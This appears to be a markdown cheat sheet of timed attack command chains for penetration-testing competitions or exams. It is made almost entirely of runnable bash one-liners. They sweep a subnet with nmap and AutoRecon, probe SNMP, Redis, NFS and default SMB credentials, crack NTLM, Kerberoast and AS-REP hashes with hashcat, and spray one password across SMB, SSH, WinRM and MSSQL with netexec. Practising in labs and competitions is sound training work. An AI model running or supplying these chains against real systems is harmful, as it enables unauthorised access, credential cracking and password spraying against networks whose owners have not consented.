 
## Competition Speed Chains

### First 30 Seconds on Network
```bash
# Discover → Categorize → Start deep scans → Start AutoRecon
nmap -sn 10.10.10.0/24 -oG - | grep Up | cut -d' ' -f2 > targets.txt && \
echo "Found $(wc -l < targets.txt) hosts" && \
nmap -iL targets.txt --top-ports 1000 -oA quick & \
autorecon -t targets.txt -o ~/results/ &
```

### Quick Win Speed Run (Do immediately while scans run)
```bash
# SNMP → Redis → NFS → Default creds (all in parallel)
(sudo nmap -sU -p 161 --open 10.10.10.0/24 && snmpwalk -v2c -c public TARGET) & \
(redis-cli -h TARGET ping && echo "REDIS NO AUTH") & \
(showmount -e TARGET) & \
(netexec smb 10.10.10.0/24 -u admin -p admin) & \
wait
```

---

## Hash Cracking

### Start All Cracking Jobs
```bash
# NTLM → NTLMv2 → Kerberoast → AS-REP (all background)
hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt & \
hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt & \
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt & \
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt &
```

### Check All Cracking Results
```bash
# Check progress on all
hashcat -m 1000 ntlm.txt --show && \
hashcat -m 5600 ntlmv2.txt --show && \
hashcat -m 13100 kerberoast.txt --show && \
hashcat -m 18200 asrep.txt --show
```

---

## Credential Testing

### Test One Password Everywhere
```bash
# Single password across all services and all hosts
PASSWORD="Welcome2024!" && \
netexec smb 10.10.10.0/24 -u administrator -p "$PASSWORD" --continue-on-success && \
netexec ssh 10.10.10.0/24 -u root -p "$PASSWORD" --continue-on-success && \
netexec winrm 10.10.10.0/24 -u administrator -p "$PASSWORD" && \
netexec mssql 10.10.10.0/24 -u sa -p "$PASSWORD"
```

